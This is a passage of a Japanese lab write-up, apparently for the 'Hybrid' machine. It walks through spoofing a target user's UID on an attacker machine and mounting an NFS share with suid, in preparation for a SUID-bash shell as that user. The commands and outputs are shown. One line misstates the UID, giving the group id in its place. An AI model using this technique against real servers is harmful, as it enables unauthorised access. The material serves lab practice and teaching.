 ## NFSへの書き込み

NFSへの書き込みから横展開を行うまでの流れ
1. **NFSはUIDのみで判断** → ローカルで同じUIDを作れば、NFSは「本物のpeter.turner」だと思う
2. **SUIDビット（+s）** → このファイルを実行すると、**ファイル所有者の権限**で動く
3. **`-p`オプション** → 権限を維持したままbashを起動

**結果：** `peter.turner@hybrid.vl`の権限でシェルが取得できる！

### ターゲット側
そもそも`peter.turner@hybrid.vl`がユーザーとして存在しているのかを確認
```sh
www-data@mail01:/opt/share$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```
ユーザーとしては確認できる
また、ユーザーIDは、902601104であることが確認できる

### 攻撃者側
攻撃者側で、ユーザーIDを`peter.turner@hybrid.vl`のものとして、ユーザーの追加を行う
```sh
┌──(kali㉿kali)-[~/…/Hybrid/target-NFS/opt/share]
└─$ sudo useradd --badname peter.turner@hybrid.vl -u 902601108
useradd: WARNING: --badname is deprecated and will be removed
useradd warning: peter.turner@hybrid.vl's uid 902601108 outside of the UID_MIN 1000 and UID_MAX 60000 range.
```

追加できたかを確かめる
```sh
┌──(kali㉿kali)-[~/…/Hybrid/target-NFS/opt/share]
└─$ getent passwd | grep 902601108
peter.turner@hybrid.vl:x:902601108:1001::/home/peter.turner@hybrid.vl:/bin/sh
```
追加できた

NFSをマウントする。この時、nosuidを付与しないようにする
- nosuiオプションがついていると、以下の攻撃でSUIDをつけたファイルをNFSにコピーしたときに、SUIDが消えてしまう
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ sudo mount -t nfs -o vers=3,nolock,suid 10.10.159.54:/opt/share /tmp/nfs_mount

┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ mount | grep nfs_mount
10.10.159.54:/opt/share on /tmp/nfs_mount type nfs (rw,relatime,vers=3,rsize=262144,wsize=262144,namlen=255,hard,nolock,proto=tcp,timeo=600,retrans=2,sec=sys,mountaddr=10.10.159.54,mountvers=3,mountport=33402,mountproto=udp,local_lock=all,addr=10.10.159.54)
```
~~nosuidがないので、大丈夫そう~~
- アップロードした時に、SUIDビットが消えるので、ターミナルで後から付与する
